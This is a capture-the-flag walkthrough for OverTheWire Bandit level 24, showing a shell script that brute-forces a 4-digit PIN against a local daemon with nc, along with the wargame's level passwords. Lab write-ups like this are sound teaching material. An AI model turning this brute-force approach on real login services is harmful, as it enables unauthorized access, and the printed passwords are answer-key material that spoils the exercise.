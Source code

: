 ## Bandit level 24 ---> level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

# Solution
```
bandit24@bandit:~$ mktemp -d
/tmp/tmp.sbajyGLhNB
bandit24@bandit:~$ cd /tmp/tmp.sbajyGLhNB
bandit24@bandit:/tmp/tmp.sbajyGLhNB$ nano code.sh
for i in {0000..9999};do
  echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> output.txt
done


bandit24@bandit:/tmp/tmp.sbajyGLhNB$ chmod 700 code.sh
bandit24@bandit:/tmp/tmp.sbajyGLhNB$ ./code.sh 

bandit24@bandit:/tmp/tmp.sbajyGLhNB$ cat output.txt | nc localhost 30002 > result.txt
bandit24@bandit:/tmp/tmp.sbajyGLhNB$ sort result.txt | grep -V "Wrong!"

bandit24@bandit:/tmp/tmp.sbajyGLhNB$ sort result.txt | grep -v "Wrong!"

Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4 #key to level 25```
